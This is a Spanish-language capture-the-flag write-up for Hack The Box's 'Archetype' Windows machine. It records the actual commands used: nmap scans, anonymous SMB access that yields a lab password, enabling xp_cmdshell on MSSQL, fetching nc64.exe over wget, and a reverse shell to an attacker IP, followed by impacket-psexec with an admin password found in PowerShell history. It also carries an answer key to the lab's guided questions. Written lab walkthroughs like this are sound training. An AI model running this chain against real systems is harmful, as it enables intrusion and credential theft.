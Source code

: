 ```yaml
---
title: Writeup archetype - Hack The Box - Resolución y Análisis
published: true
tags:
  - hackthebox
  - writeup
  - archetype
  - ciberseguridad
  - pentesting
description: Writeup y resolución de la máquina archetype en Hack The Box.
keywords:
  - writeup archetype
  - hack the box archetype
  - resolución máquina archetype
  - archetype hack the box
  - htb archetype
---
```

------
### 🔗 Accesos rápidos

- 📄 **Writeup online**: [Link](https://publish.obsidian.md/bunzopy/HTB/SuperFacil/Tier+2/Windows/Archetype)
- 📺 **Resolución en vivo (completa)**: [Parte1](https://www.youtube.com/watch?v=Xz5oX2bH5VM)|[Parte2](https://www.youtube.com/watch?v=562uiR37VvA)
- 🧠 **Explicación resumida**: 

--------

#easy #windows #nmap #ping #smb #netcat #impacket-mssqlclient

---
# Guided Mode

1)¿Qué puerto TCP aloja un servidor de base de datos?
	1433

2)¿Cuál es el nombre del recurso compartido no administrativo disponible a través de SMB?
	backups

3)¿Cuál es la contraseña identificada en el archivo del recurso compartido SMB?
	M3g4c0rp123

4)¿Qué script de la colección Impacket se puede utilizar para establecer una conexión autenticada a un servidor Microsoft SQL Server?
	mssqlclient.py

5)¿Qué procedimiento almacenado extendido de Microsoft SQL Server se puede utilizar para generar un intérprete de comandos de Windows?
	xp_cmdshell

6)¿Qué script se puede utilizar para buscar posibles rutas para escalar privilegios en hosts Windows?
	Winpeas

7)¿Qué archivo contiene la contraseña del administrador?
	consolehost_history.txt

---
# [[Reconocimiento de OS(Sistema operativo) y puertos abiertos con NMAP]]

```shell
ping -c 1 10.129.217.189
nmap -p- --open -sS -vvv --min-rate 5000 -n -Pn 10.129.217.189 -oG allports
extractPorts allports
nmap -sCV -p135,139,445,1433,5985,47001,49664,49665,49666,49667,49668,49669 10.129.217.189 -oN target
```

![[Archetype1.png]]

![[Archetype2.png]]

![[Archetype3.png]]

![[Archetype4.png]]
![[Archetype5.png]]
*TTL:* Maquina windows
*Puertos relevantes:*
	`445` [[smb]]
*Datos Importantes:*
	Nos podemos conectar con el usuario guest a [[smb]]

-------
# Intrusion por [[smb]] 

```shell
smbclient -L 10.129.217.189 -p 445 -N              / Listamos los directorios
smbclient //10.129.217.189/backups -p 445 -N       / Entramos al directorio backups
```

![[Archetype7.png]]
Descargamos el archivo que esta en el directorio backups con el comando `get prod.dtsConfig` y luego lo abrimos en nuestra maquina
![[Archetype8.png]]
Nos da dos datos relevantes:
Password=M3g4c0rp123
User ID=ARCHETYPE/sql_svc

-----
# Nos conectamos a la base de datos con [[impacket-mssqlclient]]

Vamos a entablar la conexion con el comando `impacket-mssqlclient ARCHETYPE/sql_svc@10.129.217.189 -windows-auth

![[Archetype10.png]]

Vamos a chequear con el comando `SELECT is_svrolemember('sysadmin')` si somos admin, si nos da de resultado 1 es true

![[Archetype11.png]]


#### Ahora activamos el [[xp_cmdshell]]

[Cheatsheet de comandos mssql](https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet)
Vamos a activar el [[Herramientas-Comandos/Bases de datos/SQL/MSSQL/xp_cmdshell]] por que por defecto viene desactivado

```mssql
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```

Ahora hacemos la prueba con `xp_cmdshell "whoami"` para ver si da output
![[Archetype12.png]]
Y como podemos ver responde que somos archetype/sql_svc. Asi que ya confirmamos que esta activado el xp_cmdshell


---------

# [[Reverse shell]] para la intrusion
#### Para mandar la [[Reverse shell]] vamos a necesitar de [[Netcat]]

[Link de netcat para 64bits](https://github.com/int0x33/nc.exe/blob/master/nc64.exe?source=post_page-----a2ddc3557403----------------------) Vamos a levantar un server de [[python3 -m http.server]] desde nuestra maquina, para que por wget lo descargue la maquina victima. Y a posteriori vamos a ponernos en escucha con  [[rlwrap nc -lvnp 443]] para la reverseshell

```shell
xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://10.10.16.16/nc64.exe -outfile nc64.exe           / Descargamos el archivo
xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\nc64.exe -e cmd.exe 10.10.16.16 443"                       / Mandamos la reverseshell
```

![[Archetype14.png]]
![[Archetype13.png]]

``rlwrap nc -lvnp 443``  Para estar en escucha

![[Imagenes/Archetype16.png]]
Y una vez dentro, podemos visualizar la primera flag

![[Archetype15.png]]


-------
# Escalada de privilegios con [[Logs de la powershell y de consola]]

#### Vamos a visualizar los logs de la powershell para ver si hay algun dato critico

Los logs estan en esta ruta ``C:\Users\sql_svc\appdata\roaming\microsoft\windows\powershell\psreadline``

Y al visualizar el log, vemos una contraseña
![[Archetype16.png]]
MEGACORP_4dm1n!!
#### Asi que vamos a intentar conectarnos con [[impacket-psexec]] ya que esta el servicio [[smb]]

``impacket-psexec Administrator@10.129.95.187 -port 445``
![[Archetype17.png]]
Una vez dentro ya podemos visualizar la flag
![[Archtype18.png]]

--------

--------
# Creditos
Writeup Oficial HackTheBox